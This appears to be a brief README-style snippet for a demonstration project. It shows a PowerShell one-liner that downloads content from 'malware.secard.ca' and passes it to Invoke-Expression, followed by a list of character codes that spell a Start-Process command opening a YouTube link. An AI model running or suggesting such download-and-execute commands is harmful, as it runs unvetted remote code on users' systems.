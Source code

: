 The basic workflow is to check some http connection, and then execute the command ```(iwr "http://malware.secard.ca" -UseBasicParsing).Content | ForEach-Object { Invoke-Expression $_ }``` on Windows. The results will be some ascii characters:
```
83
116
97
114
116
45
80
114
111
99
101
115
115
32
34
104
116
116
112
115
58
47
47
119
119
119
46
121
111
117
116
117
98
101
46
99
111
109
47
119
97
116
99
104
63
118
61
100
81
119
52
119
57
87
103
88
99
81
34
32
```